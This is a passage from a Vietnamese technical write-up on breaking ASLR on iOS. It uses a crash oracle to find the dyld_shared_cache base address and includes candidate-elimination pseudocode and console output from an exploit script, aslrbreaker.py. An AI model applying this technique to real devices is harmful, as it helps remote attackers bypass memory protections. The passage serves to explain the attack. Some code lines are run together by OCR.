 Khi ứng dụng thuật toán này, ta sẽ gặp phải một vấn đề nhỏ về hiệu suất vì khi thực hiện full search cho các `base_address`, số operation phải chạy được tính theo công thức: `shared_cache_size / 8 * num_candidates`. Việc này có thể khiến số operation lên đến nghìn tỉ (10¹²). Mặc dù vậy, trong thực tế thì chúng ta không test tuần tự từng địa chỉ mà chỉ cần test ngẫu nhiên 100 địa chỉ khác nhau mà thôi.

Một vấn đề khác xuất hiện khi ta sử dụng “profile-ba-trạng-thái” được nhắc đến ở trên thì thuật toán sẽ ngầm định các writable-memory-page (một vùng nhớ) vừa có thể crash vừa có thể không (50/50) vì ta không biết được giá trị nào sẽ nằm trong vùng nhớ đó vào thời điểm runtime. Tuy nhiên, một lần nữa, thì khả năng crash trong thực tế lại hoạt động bình thường vì vấn đề nhỏ này không ảnh hưởng đến độ chính xác của thuật toán trên.

Sau đây là pseudocode phiên bản hoàn thiện của thuật toán trên:

```pseudocode
candidates = [...]
while len(candidates) > 1:
  best_address = 0x0
  best_E = len(candidates)
  remaining_candidates_on_crash = None
  remaining_candidates_on_nocrash = Nonefor _ in range(0, 100):
    addr = random.randrange(minbase, maxbase, 8)
    crashset = []
    nocrashset = []
    for profile in candidates:
      if profile.addr_will_crash(addr):
        crashset.append(profile)
      if profile.addr_will_not_crash(addr):
        nocrashset.append(profile)crash_prob = len(crashset) / len(candidates)
    nocrash_prob = 1.0 - crash_prob 
    E = crash_prob * len(crashset) + nocrash_prob * len(nocrashset)
    if E < best_E:
      best_E = E
      best_address = addr
      remaining_candidates_on_crash = crashset
      remaining_candidates_on_nocrash = nocrashsetif oracle(best_address):
    candidates = remaining_candidates_on_nocrash
  else:
    candidates = remaining_candidates_on_crash
```

Output của exploit:

```python
> ./aslrbreaker.py
[!] Note: this exploit *deliberately* displays notifications to the target
[*] Trying to find a valid address...
[*] Testing address 0x180000000...
[*] Testing address 0x188000000...
[*] Testing address 0x190000000...
[*] Testing address 0x198000000...
[*] Testing address 0x1a0000000...
[*] Testing address 0x1a8000000...
[*] Testing address 0x1b0000000...
[*] Testing address 0x1b8000000...
[*] Testing address 0x1c0000000...
[+] 0x1c0000000 is valid!
[*] Have 34353 potential candidates for the dyld_shared_cache slide
[*] Shared cache is mapped somewhere between 0x181948000 and 0x203d64000
[*] Now determining exact base address of shared cache...
[*] 34353 candidates remaining...
[*] Best (approximated) address to probe is 0x1b12070d0 with a score of 17208.40
[*] 17906 candidates remaining...
[*] Best (approximated) address to probe is 0x1b8a353d8 with a score of 9144.48
[*] 9656 candidates remaining...
[*] Best (approximated) address to probe is 0x1bcb23de0 with a score of 5093.02
```